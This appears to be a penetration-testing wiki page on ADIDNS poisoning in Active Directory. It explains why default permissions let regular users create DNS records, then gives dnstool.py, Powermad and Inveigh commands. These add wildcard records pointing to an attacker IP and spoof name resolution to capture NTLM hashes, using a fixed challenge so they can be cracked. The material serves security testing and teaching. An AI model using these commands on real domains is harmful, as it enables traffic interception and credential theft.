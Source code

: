 ```yaml
---
authors: ShutdownRepo
---
```


# ADIDNS poisoning

## Theory

In order to function properly, Active Directory services need DNS. In that matter, Active Directory Domain Services (AD-DS) offer an integrated storage and replication service for DNS records. This is called Active Directory Integrated DNS (ADIDNS).

Just like any other domain name resolution spoofing attack, if an attacker is able to resolve requests with an arbitrary IP address, traffic gets hijacked, the attacker becomes a Man-in-the-Middle and further attacks can be operated.

Since ADIDNS zone DACL (Discretionary Access Control List) enables regular users to create child objects by default, attackers can leverage that and hijack traffic.

ADIDNS zones can be remotely edited

* with dynamic updates (a DNS specific protocol used by machine accounts to add and update their own DNS records). Users can create records if they don't exist, and they will have full control over it. By default, users that don't own a record will not be able to edit it, or to add another one with the same name, even if the type is different (A, AAAA, CNAME, MX, and so on).
* by using LDAP to create dnsNode objects. While dynamic updates can't be used to inject a wildcard DNS record, LDAP can be (only if the record doesn't already exist, which is the case by default).

### Wildcard records & WINS

> Wildcard records allow DNS to function in a very similar fashion to LLMNR/NBNS spoofing. Once you create a wildcard record, the DNS server will use the record to answer name requests that do not explicitly match records contained in the zone. ([source](https://blog.netspi.com/exploiting-adidns/#wildcard))

:bulb: In some scenarios, adding a wildcard record to the proper ADIDNS zone won't work. This is usually due to the WINS forward lookup being enabled on that zone. WINS forward lookup makes the DNS server send a NBT-NS Query Request to a predefined WINS server when it receives an address record query for which it doesn't know the answer. In short, it serves the same purpose as the wildcard record. This feature needs to be disabled for the wildcard record to be used.

![Domain Controller > DNS Manager > zone properties > WINS](<./assets/WINS Lookup.png>)

## Practice

### WINS forward lookup

::: tabs

=== UNIX-like

The state of WINS forward lookup can be enumerated with [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py) (Python). The entry type 65281 (i.e. "WINS") will exist if WINS forward lookup is enabled.

```bash
dnstool.py -u 'DOMAIN\USER' -p 'PASSWORD' --record '@' --action 'query' 'DomainController'
```


=== Windows

The state of WINS forward lookup can be enumerated with [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py) (Python). The entry type 65281 (i.e. "WINS") will exist if WINS forward lookup is enabled.

```powershell
Get-DNSServerResourceRecord -ZoneName "DOMAIN.FQDN" -RRType "WINS"
```

:::


### Manual record manipulation

::: tabs

=== UNIX-like

An awesome Python alternative to Powermad's functions is [dnstool](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py). Theoretically, this script can be used to `add`, `modify`, `query`, `remove`, `resurrect` and `ldapdelete` records in ADIDNS.

```bash
# query a node
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query $DomainController

# add a node and attach a record
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action add --data $AttackerIP $DomainController
```


=== Windows

On Windows, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to manually add, view, edit, enable, disable or remove records and nodes. In the following examples, the wildcard (`*`) node/record is targeted but the examples should also work with other records (except things like `WPAD` that are in the [GQBL](wpad-spoofing.md#through-adidns-spoofing)).

```bash
# get the value populated in the DNSRecord attribute of a node
Get-ADIDNSNodeAttribute -Node * -Attribute DNSRecord

# creates a wildcard record, sets the DNSRecord and DNSTombstoned attributes
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP

# append, populate, or overwrite values in a DNS node attribute
Set-ADIDNSNodeAttribute -Node * -Attribute DNSRecord -Value (New-DNSRecordArray -Data $ATTACKER_IP) -Verbose

# a tombstoned record can be turned again into a valid record with the following command
Enable-ADIDNSNode -Node *

# disable (i.e. tombstone) a node
Disable-ADIDNSNode -Node *

# remove a node
Remove-ADIDNSNode -Node *

# check the wildcard record works/resolve a name
Resolve-DnsName NameThatDoesntExist
```

> [!SUCCESS]
> TL; DR: the following command will add a new wildcard record (if it doesn't already exist) with the attacker IP set in the DNSRecord attribute
> 
> ```bash
> New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP
> ```

> [!CAUTION]
> Warning: in some environments, the disabling or removal of the records previously created for tests failed. The records were shown as tombstoned or nonexistant when using functions like `Get-ADIDNSNodeOwner`, `Get-ADIDNSNodeAttribute`, and so on. I think it was due to some replication issues.
> 
> However, the DNS Manager console was still showing those records and name resolution was still effective. It will probably stay an unsolved mystery for me, but testers need to keep this in mind when abusing ADIDNS.

More help on usage, support functions, parameters and attacks [here](https://github.com/Kevin-Robertson/Powermad#adidns-functions).

:::


> [!TIP]
> When adding records has no impact on name resolution or when the tools throw errors like `NoSuchObject`, it could be that the DNS zones in use are stored in the legacy `System` partition, or the `ForestDnsZones`, instead of the `DomainDnsZones` one.
> 
> This can be set with the `--legacy` or `--forest` option on dnstool.py, or with the `-Partition` argument for Powermad.

### Dynamic spoofing

Using [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell), the following command will 

* operate [LLMNR, NBT-NS and mDNS spoofing](llmnr-nbtns-mdns-spoofing.md)
* operate ADIDNS spoofing
 * `combo` looks at LLMNR/NBNS requests and adds a record to DNS if the same request is received from multiple systems
 * `ns` injects an NS record and if needed, a target record. This is primarily for the GQBL bypass for wpad. 
 * `wildcard` injects a wildcard record
* set the threshold at which the combo ADIDNS spoofing mode will take effect
* enable showing NTLM challenge/response captures from machine accounts
* set the Challenge to `1122334455667788` (to [crack NTLM hashes](../credentials/cracking.md#practice) with [crack.sh](https://crack.sh/))

```powershell
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

[This wiki page](https://github.com/Kevin-Robertson/Inveigh/wiki/Basics) can be really useful to help master Inveigh and its support functions

* `Clear-Inveigh` to clear Inveigh's hashtable
* `Get-Inveigh` to get data from Inveigh's hashtable
* `Stop-Inveigh` to stop all running modules
* `Watch-Inveigh` to enable real time console output

## Resources

[https://blog.netspi.com/exploiting-adidns/](https://blog.netspi.com/exploiting-adidns/)

[https://blog.netspi.com/adidns-revisited/](https://blog.netspi.com/adidns-revisited/)

[https://snovvcrash.rocks/2020/12/28/htb-hades.html#spoofing-active-directory-integrated-dns](https://snovvcrash.rocks/2020/12/28/htb-hades.html#spoofing-active-directory-integrated-dns)

